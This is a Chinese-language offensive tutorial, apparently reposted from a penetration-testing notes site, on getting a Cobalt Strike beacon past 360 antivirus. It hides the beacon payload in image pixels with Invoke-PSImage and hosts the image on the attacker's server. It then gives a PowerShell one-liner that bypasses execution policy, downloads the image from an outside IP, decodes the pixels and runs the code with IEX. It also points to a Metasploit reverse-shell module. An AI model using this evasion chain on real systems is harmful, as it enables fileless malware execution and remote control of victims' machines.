


# Cobalt Strike beacon 免杀上线 [ Powershell ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/26.html](http://book.iwonder.run/Tools/Cobalt Strike/26.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,创建监听器,并用对应的监听器生成的 "Powershell payload "


> 第二步,回到本地机器上,先准备好一张大点的图片,比如随便去找一张"1920 * 1080"的超清图,之所以要大点,主要是为了防止等会儿存不 payload,然后再借助"Invoke-PSImage.ps1 " 脚本将上面生成好的"powershell payload" 分散存到图片的各个像素中,并生成用于执行该 payload 的 powershell 代码,特别注意下那个 payload 图片链接,等会儿要把它替换成我们自己的,具体如下


> 此时,我们不妨来简单对比着看下存有 payload 的图片和原图的大小,由于是把 payload 分散存到图片的各个像素里,图片自身的体积也被瞬间撑大了数倍



> 第三步,将带有 payload 的图片挂到我们的 CobaltStrike "web 服务器[host]"上,生成如下链接,因为我们等会儿需要远程来加载这个链接以读取其中的 payload 并执行


> 第四步,去目标机器上准备执行 payload [ 全程无文件 ],此处注意,要先将用于执行 payload 的那段代码里的 payload 图片地址改成上面准备好的那个链接,如下

```
C:\>powershell -exec bypass
PS C:\> sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://18.23.76.81:80/final.png"));$o=a Byte[] 3840;(0..1)|%{foreach($x
in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..3333])); 
```



> 最终,当我们执行完那段 powershell 代码便会看到 beacon shell 被正常弹回,当然啦,这儿还有个很大的问题就是,实战中,我们肯定不可能像这样直接在目标桌面里打开个 cmd 再进到 powershell 去执行 payload,但我此时就是想执行那段 powershell payload 弹个 beacon 的 shell 回来操作,又该怎么办呢,有个比较简单的办法,就是可以配合 msf 一起,直接利用 payload/cmd/windows/powershell_reverse_tcp 模块免杀弹回个 ps 的 shell 来操作就好了,具体细节篇幅原因不再多说,非常简单,作为扩展,弟兄们可以抽空自行去实践


